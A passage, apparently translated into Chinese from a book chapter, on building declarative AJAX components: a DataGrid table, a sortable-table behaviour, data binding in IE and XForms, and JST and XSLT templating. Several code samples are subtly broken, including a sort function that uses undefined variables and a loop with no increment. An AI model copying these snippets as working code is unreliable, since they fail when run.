看看 Google 地图示例，以及如何将现有组件转换为声明，这应该有助于你不仅理解声明性方法如何使 AJAX 开发更简单，而且理解我们如何利用它来构建丰富的互联网应用程序。在通过 Google 地图进行这个练习之后，你现在可能脑子里有几个问题，比如我们如何以声明的方式处理事件、数据绑定或数据模板。我们将在下一节中探讨这些问题以及更多内容。

### 自定义声明性组件

现在你已经有机会以一个知名的 AJAX 组件为例，思考声明性方法如何工作，你将构建自己的自定义 AJAX 声明性组件。让我们逐步构建一个 AJAX DataGrid 控件，这是一个有用的用户界面功能，用于迭代 JavaScript 对象列表，例如产品对象列表，并将每个项目渲染为表格中的一行，对每个项目应用通用的样式或格式。许多服务器端框架（如 JSF 和 ASP.NET）都具有 DataGrid 组件，可以绑定到对象列表或数据库查询，并在用户界面中显示这些对象或记录。还有一些完全基于客户端的替代方案，可以使用 AJAX 连接到服务器。目前，我们先保持简单，探讨如何构建声明式 AJAX 用户界面组件，同时运用 OOP 设计模式并应用 MVC 原则。

我们首先要看的声明式组件类型极其简单——事实上，简单到完全基于 HTML 标记和 CSS。在这种情况下，该“组件”的输出是明确陈述产品信息表格的所有列和数据的结果。虽然这看起来像是奇怪的开端，但 HTML 实际上是**最权威的声明式标记**。声明中的每个元素都具有一个 `class` 属性，将 HTML 与关联 CSS 中包含的样式信息连接起来；每个元素还具有一个 `id` 属性，用于样式设置以及使元素能够从 JavaScript 中唯一寻址。HTML DataGrid 的标记可能如下所示：

```html
<table id="myGridList" class="gridlist">
  <thead>
    <tr id="header" class="header-group">
      <td id="header-0" class="header header-0">Product</td>
      <td id="header-1" class="header header-1">Price</td>
    </tr>
  </thead>
  <tbody>
    <tr id="row-0" class="row">
      <td id="cell-0_0" class="column column-0">Acme Widget</td>
      <td id="cell-0_1" class="column column-1">$19.99</td>
    </tr>
    <tr id="row-1" class="row row-alt">
      <td id="cell-1_0" class="column column-0">Acme Box</td>
      <td id="cell-1_1" class="column column-1">$9.99</td>
    </tr>
    <tr id="row-2" class="row">
      <td id="cell-2_0" class="column column-0">Acme Anvil</td>
      <td id="cell-2_1" class="column column-1">$14.99</td>
    </tr>
  </tbody>
  <tfoot>
    <tr id="footer" class="footer-group">
      <td id="footer-0" class="footer footer-0">Total</td>
      <td id="footer-1" class="footer footer-1">$43.97</td>
    </tr>
  </tfoot>
</table>
```

出于可访问性原因，我们使用 HTML `<table>` 元素（见图 4.2），而非 `<div>` 元素——更多内容请参阅第 7 章“Web 服务与安全”。从 HTML 声明本身可以看出，结果是每个产品项目的基本布局，包括列标题和页脚。然而这并没有什么神奇之处，这是设计声明式组件的重要一步，因为它让你清楚地了解想要实现的 HTML 结构。



HTML 中指定的 CSS 类提供了样式信息，使页眉和页脚内容变为**粗体**、使数据背景色交替显示，并指定网格尺寸。组件或应用程序的所有样式信息都需要由 CSS 提供，这对于 AJAX 应用程序和传统回传式 HTML 应用程序来说没有什么不同。前述产品列表的 CSS 文件内容如下所示：

```css
.theme #myGridList {
  width: 200px;
  border: 1px solid black;
}

.theme .columnheader-group,
.theme .columnfooter-group {
  height: 20px;
  font-weight: bold;
  border-bottom: 1px solid black;
}

.theme .columnheader,
.theme .column,
.theme .columnfooter {
  float: left;
  overflow: hidden;
}

.theme .columnheader-0,
.theme .column-0,
.theme .columnfooter-0 {
  width: 100px;
}

.theme .columnheader-1,
.theme .column-1,
.theme .columnfooter-1 {
  width: 50px;
}

.theme .row,
.theme .column {
  height: 18px;
}

.theme .row-alt {
  background-color: #E5E6C6;
}
```

这里需要注意几点。首先，我们使用了后代选择器来根据主题类区分给定样式；所列的样式将仅应用于具有带有主题类的祖先元素的元素。另一件对设计决策产生重大影响的事情是，在 DataGrid 的情况下，以及大多数任何数据绑定组件中，我们需要为 DataGrid 中每个用户指定的列以及列的每个区域（即页眉、数据和页脚）定义自定义 CSS 规则。在极端情况下，我们甚至可以为每一行数据指定 CSS 规则，就像构建电子表格组件时可能出现的情况。这就是动态创建样式能够派上用场的地方，而不支持动态样式功能的浏览器（如 Safari）则开始成为应用程序性能和开发便利性的*负担*。替代使用 CSS 类来指定列宽的方法是直接设置列上的 `style` 属性。

尽管你现在有了一个填充了数据的精美 DataGrid，但在 HTML 中显式构建组件并没有帮助，因为数据和结构全部混在一起，使得更改数据或展示的任何一个方面都变得困难。然而，我们从静态 HTML 表格开始是有原因的。通过布局 HTML，有助于更好地理解如何以最高效的方式合并数据、结构和样式，无论是从 HTML 占用空间还是计算复杂度的角度来看。为了确保 HTML 占用空间小，我们使用了尽可能少的 HTML 元素——仅那些布局数据所必需的元素——并使用基于 ID 和基于类的 CSS 选择器将所有样式应用于数据。我们利用了可以将单个样式应用于多个元素的优势；特别是，我们使用这一特性通过一条 CSS 规则同时设置列页眉、数据和页脚的宽度，如下所示：

```css
.columnheader-0,
.column-0,
.columnfooter-0 {
  width: 100px;
}
```


## 行为组件

我们从硬编码 HTML 开始制作 AJAX 组件的另一个原因是，我们可以采用行为方式，向硬编码 HTML 添加 AJAX，从而起步良好。如果诸如优雅降级之类的事情很重要，这可能是一个好方法，因为当用户的 Web 浏览器未启用 JavaScript 或不支持某些核心 AJAX 功能（如 XHR 对象）时，它可以轻松回退到标准 HTML 标记。这些情况正变得越来越不可能，特别是在企业中，计算机软件通常是集中配置和管理的。帽子回收，行为组件使你能够向渲染的 HTML 增量添加 AJAX 功能，而 HTML 可能来自某些现有的服务器端框架，从而增强现有 Web 应用程序资产的价值。Microsoft AJAX Framework（以前称为 Atlas）非常关注行为组件。例如，Microsoft AJAX Framework 不是创建自动完成组件，而是提供一个自动完成行为，这是 AJAX 的典范，可以应用于任何现有组件，如标准 HTML `<input>` 元素。在这种情况下，很像动态的 `<select>` 元素，它增加了允许用户在 `<input>` 控件中输入时从数据库动态选择单词的能力。对于我们的 DataGrid 组件，向标准 HTML 添加一些类似网格的行为可能意味着使最终用户能够编辑或排序网格中的数据。

定义行为组件通常是通过扩展默认 HTML 标记并在标准 HTML 元素上设置一些元数据来以声明式方式完成的。在大多数情况下，这些元数据由一个不包含任何实际样式信息的 CSS 类名组成。为了实例化行为组件，引导程序会搜索 DOM 以查找具有可识别元数据的元素——无论是 CSS 类名还是其他内容。当发现具有已知元数据的元素时，标准的组件实例化就开始了。可排序 HTML 表格的标记可以有一个额外的类，例如 `sortable`，如下所示：

```html
<table id="mySortableTable" class="gridlist sortable"></table>
```

实际将排序行为附加到 HTML 元素的代码使用了流行的 `getElementsByClassName()` 函数，该函数有几种不同的自定义实现或方法。由于它是如此流行的函数，我们将名称缩短为 `$$`。我们可以在引导程序中使用 `$$` 函数以及 `makeSortable()` 函数，将排序行为添加到我们的 HTML 表格中。

```javascript
function initSortable()
{
  entAjax.lang.forEach(
    entAjax.html.$$("sortable"),
    entAjax.behaviour.makeSortable
  );
}
```

```javascript
entAjax.behaviour.makeSortable = function(table)
{
  entAjax.forEach(table.rows[0].cells,
    function(item) {
      item.className += " button";
    });

  entAjax.html.attachEvent(table.rows[0], "click",
    entAjax.lang.close(table, sort));
}
```

为了制作一个可排序的 HTML 表格，我们需要 `makeSortable()` 函数完成几项任务。每个我们想要变为可排序的表格，都需要为其每个标题单元格添加一个额外的类，并为表头的点击事件附加一个事件处理函数。为了向终端用户表明他们可以点击列标题来按该列排序表格，我们添加 `button` 类，这会将用户的鼠标光标变为手形图标；当他们点击时，它会导致全局 `sort()` 函数在 HTML `<table>` 元素的上下文中执行。（你还记得第 2 章的内容，在 HTML 元素的上下文中运行事件处理程序意味着 `this` 关键字指的是 HTML 元素，这使得编写排序函数稍微容易一些。）

数据排序是我们在计算机科学 101 课程中应该都记得的内容。JavaScript 在这方面与其他语言并无不同，我们使用熟悉的冒泡排序算法来排列表格行。我们也可以考虑使用 JavaScript 的数组排序功能；然而，这需要更多繁琐的开销，比如在数组之间复制数值等等。`sort()` 函数如下所示：

```javascript
function sort(evtObj, element)
{
  var aRows = this.rows;
  var nRows = aRows.length;
  var nCol = getCol(evtObj.srcElement);
  var swapped;

  while (true)
  {
    swapped = false;

    for (var i=1; i<nRows-2; i++)
    {
      var sValue1 =
```

```javascript
aRows[i].cells[nCol].getAttribute("value");

      var sValue2 =
        aRows[i+1].cells[nCol].getAttribute("value");

      if (sValue1 > sValue2)
      {
        a.parentNode.insertBefore(a,
          entAjax.dom.getNextSibling(b));

        swapped = true;
      }
      else
      {
        swapped = false || swapped;
      }
    }

    if (!swapped) break;
  }
}
```

因为 `sort()` 函数是在 HTML 表格元素的上下文中执行的，我们可以使用原生的 `rows` 属性访问表格行的集合，同样使用 `cells` 属性访问每行单元格的集合。为了获取表格每个单元格中渲染的值，我们不使用像 `innerHTML` 这样返回单元格渲染值的东西，而是获取我们自己创建的自定义 `VALUE` 属性（这可能是一个需要使用自定义命名空间属性的实例），它包含原始的、未格式化的数据。在我们处理诸如价格之类的东西时，这是一个重要的考虑因素，因为价格在显示时可能前面带有“$”字符，但排序时却是按数字进行的。话虽如此，在我们动态地将表格连接到数据源之后，这将不再是必要的。最后，我们使用一些更多的原生 DOM 操作方法，例如 `element.insertBefore(newNode, refNode)`。`insertBefore()` 方法使得行的排序变得非常简单，因为我们可以将该方法与已经渲染的 DOM 节点——在这种情况下是表格行——一起使用，它实际上会移动这些节点并重新渲染它们。

这就是构建一个小型行为 AJAX 组件的全部内容，它可以叠加在现有的 Web 应用程序之上。行为组件背后的整个理念正从语义标记和其他技术（如微格式）的世界中获得普及。严格来说，微格式不是一种新技术，而是一组简单的数据格式化标准，旨在为网页提供更丰富的注释内容。微格式使用相同的 CSS 类扩展方法，为通用的 XHTML 内容赋予更多的语义信息。微格式和其他新兴标准，如 W3C 支持的 RDFa，是观察网络技术发展方向并找到创建声明式 AJAX 组件的最佳方式的好地方。

无论如何，使用 HTML 声明并附加一些额外元数据的行为式 AJAX，可以成为 AJAX 开发的一个很好的方法，因为它可以以增量的方式实现，从而避免在培训或技术上的任何大规模前期投入。在更广泛地部署之前，这可能是测试 AJAX 水深的好方法。当然，当你的应用程序向 AJAX 化转变时，仍然有其他方法可以使用你现有的架构。

## 声明式组件

行为组件（使用 HTML 标记作为声明）的下一步是创建一个 HTML 标记的抽象，这样你就可以做更多事情，而不仅仅是添加一些简单的排序或编辑功能。使用自定义设计的声明意味着你实际上可以在 Web 浏览器中生成和输出 HTML 标记，并从客户端数据源填充数据——这将是你的完全声明式客户端 AJAX 解决方案。在创建自定义声明式 AJAX 组件或应用程序时，你需要考虑几个方面。要深入了解这些问题，正如我们已经提到的，查看 W3C 提出的现有建议和规范总是一个好主意——无论它们有时看起来多么深奥或通常不切实际。似乎更多时候，仅仅因为 AJAX 看起来闪亮而新颖，人们就倾向于忘记他们想做的大部分事情在过去某个背景下已经被解决了。

当创建声明式 AJAX 解决方案时，你可以在许多地方寻找灵感。通过查看来自私有供应商（如 Microsoft（XML Application Markup Language）和 Adobe（Flex MXML））以及 W3C（XForms、Scalable Vector Graphics、XML Binding Language）的许多优秀声明式框架示例，其中出现了两个共同的主题。这些主题是数据绑定——定义数据如何以及在用户界面的何处显示，以及数据模板化——定义数据在用户界面中如何格式化。我们将探讨一些现有解决方案以及一些关于如何用自定义 JavaScript 方法解决这两个问题的想法。

## 数据绑定

一个好的数据绑定解决方案可能很难实现。这里的“好”是指一个灵活的解决方案，它提供多个级别的间接性，以便我们可以构建复杂的数据绑定组件。首先，让我们快速看看过去十年中在 Web 上盛行的一些数据绑定解决方案。

### Internet Explorer 数据绑定

自 4.0 版本发布以来，Internet Explorer 的浏览器中就内置了客户端数据绑定功能。虽然它不是很高级，但 Internet Explorer 确实通过支持两个自定义 HTML 属性——`DATASRC` 和 `DATAFLD` 属性——在几个不同的 HTML 元素上提供了基本的数据绑定功能。`DATASRC` 属性指定了一个客户端数据源，元素绑定到该数据源，而 `DATAFLD` 属性指定了数据源中的特定字段，HTML 元素的值绑定到该字段。与数据源绑定的最常见 HTML 元素，如我们的行为示例，是 `<table>` 元素，它通常绑定到重复的数据列表，其中数据列表在表格的 `<tr>` 元素中重复。一个数据绑定的 `<table>` 元素可能看起来像这样：

```html
<table datasrc="#products">
  <thead>
    <tr><td>Product</td><td>Price</td></tr>
  </thead>
  <tbody>
    <tr>
      <td><span datafld="name"></span></td>
      <td><span datafld="price"></span></td>
    </tr>
  </tbody>
</table>
```

因为 `<td>` 元素不支持 `datafld` 属性，所以我们使用一个绑定到数据源字段的 `<span>` 标签。数据源本身可以是各种结构；其中最流行的可能是 XML 数据岛，它看起来像这样：

```xml
<xml id="products" src="products.xml"></xml>
```

尽管这是一种有用的技术，但它仍然有很多不足之处，在构建真正的富互联网应用程序（RIAs）方面，它提供的只是一个权宜之计。最近，W3C 支持的技术，如 XForms 和 XML 绑定语言（XBL），是声明式组件和 Web 浏览器数据绑定方面的全面方法的优秀范例。

### XForms 数据绑定

列表中最成熟的选项之一是 XForms。¹ XForms 1.0 于 2003 年 10 月成为 W3C 推荐标准，此后没有太大进展。这项技术有一些真正的拥护者，但尚未得到主流浏览器的支持。

在 XForms 世界中，有模型和控件（或视图）。模型定义数据，控件用于显示数据。为了将视图绑定到模型，需要理解几个重要的声明式属性。首先，你有单节点绑定属性。这些定义了表单控件或操作与由 XPath 表达式定义的实例数据节点之间的绑定。在一个绑定到单个数据节点的 XForms 控件上，可以有 `REF` 和 `MODEL` 属性，或者 `BIND` 属性。`MODEL` 和 `REF` 属性分别指定了要与此绑定元素关联的 XForms 模型的 ID 以及该模型内数据的 XPath。或者，此绑定信息可能包含在一个完全独立的声明中，可以使用第三个感兴趣的属性的值来引用，该属性名为 `BIND`。

当你想要绑定到数据列表而不是单个值时，你可以绑定到模型中的节点集而不是单个节点。`NODESET` 属性，就像 `REF` 属性一样，指定了控件绑定到的节点集的 XPath。同样，要么需要 `MODEL` 属性与 `NODESET` 属性一起使用，要么 `BIND` 属性可以引用一个单独的绑定声明。

绑定声明元素，而不仅仅是那四个属性，提供了一组更完整的选项来指定如何进行与数据的绑定。`<BIND>` 元素通过这些额外属性将模型连接到用户界面：

- `calculate`—指定一个公式来计算实例数据的值
- `constraint`—允许用户指定一个谓词，数据必须通过该谓词才能被视为有效
- `required`—指定数据是否为必填
- `readonly`—指定数据是否可修改
- `type`—指定架构数据类型

> ¹ <http://www.w3.org/TR/xforms>

最后需要考虑的是 `REF` 或 `NODESET` XPath 表达式的求值上下文。数据绑定 XPath 表达式的求值上下文源自绑定节点的祖先节点。例如，在父节点上设置 `REF="products/product"` 时，后代节点 XPath 表达式的求值上下文即为指定 `MODEL` 中的相同路径。对于 select 表单元素，可以使用 `<ITEMSET>` 元素定义动态值列表，这些值从 ID 为 products 的 Model 中填充，而选中的产品保存在 ID 为 order 的 Model 中。

```xml
<select model="order" ref="my:order">
  <label>Products</label>
  <itemset model="products"
    nodeset="/acme:products/acme:product">
    <label ref="acme:name"/>
    <value ref="acme:name"/>
  </itemset>
</select>
```

由于求值上下文，`<LABEL>` 和 `<VALUE>` 的 `REF` XPath 值在其直接父节点的上下文中求值，即 products Model 的根节点。

在众多服务器端或桌面端语言中，还有更多声明式编程的例子可供探究，例如 .NET Web Forms、JavaServer Faces、Flex MXML、XUL、Laszlo 和 XAML。可以说，这些技术大多由 MVC 模式驱动，并且极力将 Model 和 View 分离。与 XForms 类似，大多数还依赖基于 XML 的数据，并利用 XPath 和 XSLT 等标准来实现 RIA 应有的丰富功能。特别是，许多新语言中的一些共同特点是在数据绑定表达式中使用 XPath，以及在 Model 中继承 XPath 执行上下文。

## 模板

构建声明式组件的第二个重要领域是数据模板。如果重用是优先事项，数据模板就很重要，因为它应该能够对组件的外观和感觉进行高度定制。选择健壮的模板机制对于创建灵活且高性能的 AJAX 应用程序和组件来说至关重要。网上有一些不同的 JavaScript 模板库，其中最受欢迎的可能是 TrimPath 的 JST 库。与许多基于脚本的模板语言（例如 ASP 和 PHP）一样，它最终不可避免地变成了 JavaScript 代码和 HTML 片段的混乱交织——实际上与手写 JavaScript 没有什么不同。基于 JST 的模板可能如下所示：

```text
Hello ${customer.first} ${customer.last}.<br/>
<table>
  <tr><td>Name</td><td>Price</td></tr>
  {for p in products}
    <tr>
      <td>${p.name}</td><td>${p.price}</td>
    </tr>
  {forelse}
    <tr><td colspan="2">No products in your cart.</tr>
  {/for}
</table>
```

如前所述，这个“模板”看起来与通过标准字符串连接来生成 HTML 时可能使用的代码相当相似。

```javascript
var s = "";
s += "Hello " + obj.customer.first + " " + obj.customer.last + ".<br/>";
s += "<table>";
s += "<tr><td>Name</td><td>Price</td></tr>";

for (var i = 0; i < obj.products.length)
{
  var p = obj.products[i];
  s += "<tr><td>" + p.name + "</td><td>" + p.price + "</td></tr>";
}

if (obj.products.length == 0)
{
  s += "<tr><td colspan=\"2\">No products in your cart.</tr>";
  s += "</table>";
  $("TemplatePlaceholder").innerHTML = s;
}
```


虽然它名义上可能是一个模板，但实际上这两种方法本质上是相同的，而且都没有提供使用模板解决方案应该获得的任何好处。

也就是说，使用模板应该获得两个主要好处。首先，模板最好不让用户界面开发人员接触 JavaScript 编码，至少应该提供一种解决方案，用于将模板应用于项目列表而不需要显式的 `for` 循环。其次，模板应该能够创建细粒度的、解耦的模板，这有利于重用和更少出错的定制。

虽然可能有一定的学习曲线，但这两点都可以通过真正的模板语言（如 XSLT）很好地实现，XSLT 可以成为一种高性能且多功能的模板解决方案。在实现某些模板解决方案的现实情况中，XSLT 有几个优势，例如良好的文档（毕竟它是 W3C 标准）、粒度模板、模板导入能力——还有许多其他优势。

关于 XSLT，一个常被提及的抱怨是某些浏览器不支持它。然而，XSLT 不仅在最新版本的 Internet Explorer、Firefox、Safari 和 Opera 中得到支持，而且您还可以在服务器端使用完全相同的 XSLT 来为不支持该技术的用户代理渲染数据。

一个基本的 XSLT 样式表如下所示：

```xml
<xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <table>
      <xsl:apply-template select="//Product" />
    </table>
  </xsl:template>
  <xsl:template match="Product">
    <tr>
      <td><xsl:value-of select="Name"/></td>
      <td><xsl:value-of select="Price"/></td>
    </tr>
  </xsl:template>
</xsl:stylesheet>
```

`Name` 和 `Price` 的值是根据应用模板的 XML 数据检索的。任何 `<xsl:apply-templates select="Product"/>` 语句都可以导致该模板被应用。

要发挥 XSLT 的真正威力，您可以执行诸如向节点选择附加谓词 `<xsl:apply-templates select="Product[Price>10]"/>` 之类的操作，甚至只需在选择语句前加上 `//` 就可以搜索整个数据子树。

XSLT 还根据选择器的特异性来选择要应用的模板——很像 CSS。例如，要对不同价格的产品应用不同的样式，可以使用以下 XSLT：

```xml
<!-- 这是将被应用的默认模板 -->
<xsl:template match="Product">
  <tr>
    <td><xsl:value-of select="Name"/></td>
    <td><xsl:value-of select="Price"/></td>
  </tr>
</xsl:template>

<!-- 这是一个更具体的模板 -->
<xsl:template match="Product[Name='Acme Widget']">
  <tr class="sale-product">
    <td><xsl:value-of select="Name"/></td>
    <td><xsl:value-of select="Price"/></td>
  </tr>
</xsl:template>
```

上述模板将常规产品项目渲染在 `<tr>` 标签中以供放入表格，并将名称为 Acme Widget 的产品渲染为带有 CSS 类的标签，表明该商品是促销产品。

可扩展性是 XSLT 的一个关键特性；鉴于“可扩展”一词就在名称中，您应该有这样的期望。通过在此级别使用粒度模板，您可以添加或移除渲染模板，而 XSLT 处理器会自动选择最合适的模板。

这与其他可能依赖命令式方法或显式使用 `if` 语句检查产品名称的模板方法不同。根据可扩展性对组件或应用程序渲染的重要程度，在执行速度和代码大小方面可能存在权衡。

稍加努力，当然可以在原生 JavaScript 中复制 XSLT 的功能。同样，速度和代码大小可能存在权衡；然而，您确实获得了所有代码都在同一 JavaScript 执行沙箱中运行的优势，这使得定制化和某些 AJAX 功能变得更加容易。

一个例子是可编辑的 DataGrid，其中渲染的单元格值可以由最终用户编辑，随后新的值可以通过 AJAX 保存在服务器上——无需页面刷新或服务器回发。

如果 DataGrid 中显示有数值数据，例如我们示例中的产品价格，价格需要按照特定的数字掩码进行格式化，以便使用正确的货币符号和适合该位置的数字格式显示。起初，这看起来很容易，但实际上需要考虑几种数据交互。数字掩码需要在几种情况下应用于数据，例如：

- 所有数据的初始渲染
- 值被编辑后
- 新行插入 DataGrid 时

三种不同的情况需要三个不同级别的模板，以使这类交互尽可能流畅——因此，尽可能使用粒度模板的动机就在于此。

我们总是可以只依赖第一种模板，即初始渲染模板，这当然可以实现以适当格式重新显示编辑后的数据或显示新插入行的目标；然而，这也会带来很大的性能损失，因为重新渲染 DataGrid 的所有内容会使数据编辑变得缓慢而繁琐。

相反，我们希望拥有用于渲染数据块的模板，这些模板依赖于用于渲染单行数据的模板，而后者又相应地依赖于单元格渲染模板。

## 声明

既然我们已经了解了数据绑定和模板对于构建 AJAX 组件和应用程序的重要性，我们可以探讨如何为 DataGrid 组件创建抽象声明。

要创建声明式 DataGrid——或任何其他组件——最好的方法是从渲染后的 HTML 最终产物开始，然后进行重构以提取可配置的方面，正如我们查看行为组件时所做的那样。以下是定义自定义声明式 DataGrid 的示例。

### 声明式 DataGrid

我们已经看过了行为式 DataGrid 的声明。注意我们仍然使用标准 HTML 标记，但这将会改变。

```html
<table id="myGridList" class="grid">
  <thead>
    <tr id="header" class="header-group">
      <td id="header-0" class="header header-0">Product</td>
      <td id="header-1" class="header header-1">Price</td>
    </tr>
  </thead>
  <tbody>
    <tr id="row-template" class="row-template">
      <td id="cell-{$Index}_0" class="column column-0">{$Name}</td>
      <td id="cell-{$Index}_1" class="column column-1">${$Price}</td>
    </tr>
  </tbody>
  <tfoot>
    <tr id="footer" class="footer-group">
      <td id="footer-0" class="footer footer-0">Total</td>
      <td id="footer-1" class="footer footer-1">${$Total}</td>
    </tr>
  </tfoot>
</table>
```

这与我们的行为式 DataGrid HTML 没有太大区别；我们仍然拥有 DataGrid 的静态头部和脚部，正如之前那样；然而，我们现在为网格行指定了一个模板来渲染，而不是在 HTML 中为每一行显式写入数据。

在产品名称和价格值的位置，我们使用了一种新的语法，看起来像这样 `{$FieldName}`。这种语法借鉴自 XSLT，用于指示来自数据源的数据应放置的位置，`$` 字符后的字符串应对应于客户端数据源中的数据字段，该数据源可以是 XML、JSON 或其他格式。

基于我们在其他声明式语言中看到的情况，使用 XPath 表达式在这里是最合理的。将这个视图连接到模型后，我们理想中得到的是一个渲染后的网格，其中 `{$FieldName}` 表达式全部被客户端数据源的数据替换。

假设模板应用于数据列表，我们也使用 `{$Index}` 表达式来渲染集合中每个项目的唯一数字索引。在这种情况下，我们使用这个索引值在 HTML 中生成一个动态 CSS 类名，该 HTML 也是从 JavaScript 动态创建的。

你可能很快注意到这里有一个问题，即网格的脚部包含价格列的值的总和，因此必须动态计算。还要注意，出现在每列顶部的文本，以及 HTML 元素样式，甚至用于结构的 HTML 元素，都仍然在 HTML 中静态定义，这可能大大增加定义组件外观时出现人为错误的可能性，并严重影响可用性和用户界面的皮肤功能。

话虽如此，确实存在这种灵活性有益的实例，例如在行为式组件的情况下。无论如何，我们可以通过使用更抽象的 DataGrid 表示来解决所有类名显式定义的问题。

例如，尽管我们现在为 DataGrid 的数据内容定义了基于行的模板，但也可以考虑使用如下模板将 DataGrid 的头部绑定到数据源：

```html
<tr id="header-template" class="header-template">
  <td id="header-{$Index}"
      class="header header-{$Index}">{$Label}</td>
</tr>
```

`<td>` 元素为每个定义的列重复。在这种情况下，列没有绑定到包含产品信息的主模型中的数据，而是绑定到另一个伪模型，该模型包含有关列的信息，例如列标签、宽度、样式和其他信息，例如列中的数据是否应求和。

这使我们能够模板化网格头部，以便每个列标题也可以使用这个简单的 HTML 模板渲染到 DOM 中。可以为脚部设计类似的东西；然而，根据应用程序范围，事情可能很快变得复杂。

网格的本质基于数据列；列是网格的基本构建块，包含所有必要的信息，例如列标题、列脚部和列数据。

考虑网格的类图，你可以很快意识到，与其试图将丰富的网格结构完全适应基于 HTML 的定义，不如使用自定义 HTML 标签来定义声明，这对组件的开发者和使用该组件的应用程序设计师来说都更容易。

对于应用程序设计师来说，使事情变得更容易的声明可能看起来像这样：

```html
<ntb:grid datasource="products" cssclass="myGrid">
  <ntb:columns>
    <ntb:column width="100px">
      <ntb:header value="Name"></ntb:header>
      <ntb:item value="{$Name}"></ntb:item>
      <ntb:footer value="Total" style="font-weight:bold;"></ntb:footer>
    </ntb:column>
    <ntb:column width="100px">
      <ntb:header value="Price"></ntb:header>
      <ntb:item value="{$Price}" mask="$#.00"></ntb:item>
      <ntb:footer value="{SUM($Price)}"
           style="font-weight:bold;"></ntb:footer>
    </ntb:column>
  </ntb:columns>
</ntb:grid>
```

这看起来类似于显式 HTML；然而，它在几个重要方面有所不同。网格的定义已被调整，因此我们从列的角度来考虑网格，每个列都有一个标题、数据项和脚部，而不是从行的角度。

通过进行这个简单的改变，它显著简化了我们处理模板化和数据绑定的方法。在 DataGrid 的情况下，我们需要几个不同的模板。

我们需要模板化 DataGrid 本身：

```html
<table id="{$id}" class="simple-grid">{$Header}{$Data}{$Footer}</table>
```

头部组模板：

```html
<tr id="{$id}-header" class="header-group">{$columns}</tr>
```

头部项模板：

```html
<td id="{$_parent.id}-header-{$index}" class="header header-{$index}" style="width:{$columnWidth};">{$header.value}</td>
```

行项模板：

```html
<tr id="{$id}-row-{$index}" class="row {$AltRowClass}" eatype="row">{$columns}</tr>
```

单元格项模板：

```html
<td id="{$id}-cell-{$RowIndex}_{$index}" class="column column-{$index}" eatype="cell">{$item.value}</td>
```

脚部组模板：

```html
<tr id="{$id}-footer" class="footer-group">{$columns}</tr>
```

最后，脚部项模板：

```html
<td id="{$id}-footer-{$index}" class="footer footer-{$index}">{$footer.value}</td>
```

对于 DataGrid 类型的控件，模板相当复杂，因为某些模板依赖于两个数据源。

特别是，模板首先“绑定”到 DataGrid 的状态；这确保了所有列的宽度和样式根据 DataGrid 本身的状态正确设置。第二次绑定发生在 DataGrid 绑定到在 DataGrid 状态中指定的外部数据源时。

数据单元格项模板是最复杂的模板，因为它必须包含来自 DataGrid 状态的信息——例如，它需要根据数据类型应用某些格式设置——以及来自外部绑定数据源的信息。

为确保 DataGrid 中的每个单元格都是唯一可寻址的，我们生成 `<td>` 元素的 `id` 属性为 `id="{$id}-cell-{$RowIndex}_{$index}"`，其中 `{$id}` 来自 Data Grid 状态——DataGrid 本身的唯一标识符——`{$index}` 是列索引，`{$RowIndex}` 是行索引。

有关模板方法的所有详细信息，你必须查看本书随附的源代码。

通过这组细粒度的模板，你可以在组件生命周期的各个点快速高效地渲染组件，例如在组件渲染时、编辑数据时或创建或删除数据时。

## 构建组件

从构建命令式版本的组件开始，然后启用声明式用法来预设任何组件参数是最简单的。

这种方法通常是一个明智的选择，因为它确保从命令式开发者的角度获得高质量的 API，并使组件对那些不想使用声明式方法的人可访问。

让我们看看如何为一个应用程序构建一个声明式组件，该应用程序中我们希望向用户呈现一个客户列表，该列表使用 AJAX 从服务器端数据处理程序填充。

### 基本功能

作为第一个要求，我们以与使用 `new` 关键字创建任何其他类实例完全相同的方式创建 DataGrid 控件，并传递 HTML 元素作为单个构造函数参数，该参数指向我们希望组件在其中渲染的元素。

然而，与任何开发工作一样，无论你是使用极限编程还是瀑布方法，我们都会在开始时进行至少一些预先设计。DataGrid 控件可以用 UML 类图相当简单地表示，如图 4.3 所示。



**图 4.3 SimpleGrid 类图**

`SimpleGrid` 类由列定义集合、页眉和页脚，以及行集合组成。此外，还继承了 `Component` 类的许多方法，这些方法被声明式框架用于实例化、渲染和销毁组件，例如 `render()` 和 `dispose()`。

`SimpleGrid` 与 `Column` 类之间是一对多的关系，其中 `Column` 类包含渲染数据列所需的所有信息，例如列页眉、页脚、数据、宽度、类型和 CSS 属性。

类似地，`SimpleGrid` 类继承自 `Component` 类，其中定义了声明解析和模板化所需的所有功能。

因为我们从 UML 模型设计组件，我们利用这一点，实际为我们的组件生成脚手架 JavaScript 代码，包括所有属性的 getter 和 setter、方法存根以及继承链。所以，首先，仅通过使用我们传统上用于 C++ 或 Java 的服务器或桌面开发的工具，我们就免费获得了相当多的东西。

我们初始的 `SimpleGrid` 构造函数和 `Component` 类大致如下：


```javascript
entAjax.Component = function(element) {
  this.element = element;
  this.id = element.getAttribute("id");
  this.renderTemplates = {};
